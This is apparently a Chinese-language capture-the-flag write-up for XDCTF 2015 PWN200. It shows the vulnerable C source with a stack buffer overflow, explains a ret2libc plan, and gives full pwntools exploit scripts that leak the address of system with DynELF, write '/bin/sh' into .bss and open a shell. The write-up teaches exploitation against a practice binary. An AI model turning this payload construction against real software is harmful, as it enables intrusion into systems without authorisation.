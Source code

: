 ## XDCTF 2015 PWN200
--------------------------------------------------
### 一. 源码(自己敲出来的)
```
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int vuln(){
    char buf[80];
    setbuf(stdin, buf);
    return read(0, buf, 256);
}

int main(int argc, char** argv){
    char* welcome = "Welcome to XDCTF2015 ~!\n";
    setbuf(stdout, welcome);
    write(1, welcome, strlen(welcome));
    vuln();
    return 0;
}

```
检查一下保护:

![result](./02.png)

结论: **只有NX保护**， so我们不能往`shellcode`方向思考了，要向`system("/bin/sh")`。

### 二. 分析
**思路**: 泄露`system`函数地址，发送`/bin/sh`, 执行。
**问题一**: 如何泄露`system`地址?
>答: 使用`pwntools`模块`DynELF`
```
from pwn import *

p = process('./pwn200')
elf = ELF('./pwn200')
write = elf.plt['write']
read  = elf.plt['read']
bss = elf.bss(0x2C)
main = 0x80484be
pppt = 0x0804856c
offset = 112

def leak(address):
  #各种预处理
  payload = "A" * 112 + p32(write) + p32(main) + p32(1) + p32(address) + p32(4)
  p.send(payload)
  #各种处理
  data = p.recv(4)
  log.debug("%#x => %s" % (address, (data or '').encode('hex')))
  return data
d = DynELF(leak, elf = elf)      #初始化DynELF模块 
systemAddress = d.lookup('system', 'libc')  #在libc文件中搜索system函数的地址
```
**问题二**: 如何发送`/bin/sh?`
> 构造类似的`payload`
```
payload = 'A' * 112 + p32(read) + p32(pppt) + p32(0) + p32(bss) + p32(0x2C) + p32(systemAddress) + p32(main) + p32(bss)
```
**问题三**: `pppt是干什么的?如何获得`
> `pppt`是为了弹出`read`的三个参数，执行后面的`system`函数.
![](./03.png) 
### EXP
```
from pwn import *

p = process('./pwn200')
elf = ELF('./pwn200')
write = elf.plt['write']
read  = elf.plt['read']
bss = elf.bss(0x2C)
main = 0x80484be
pppt = 0x0804856c
offset = 112

def leak(address):
    p.recvuntil('Welcome to XDCTF2015~!\n')
    payload = "A" * 112 + p32(write) + p32(main) + p32(1) + p32(address) + p32(4)
    p.send(payload)
    data = p.recv(4)
    log.debug("%#x => %s" % (address, (data or '').encode('hex')))
    return data
d = DynELF(leak, elf = elf)
systemAddress = d.lookup('system', 'libc')
payload = 'A' * 112 + p32(read) + p32(pppt) + p32(0) + p32(bss) + p32(0x2C) + p32(systemAddress) + p32(main) + p32(bss)
p.send(payload)
payload = "/bin/sh\00"
p.send(payload)
p.interactive()

```
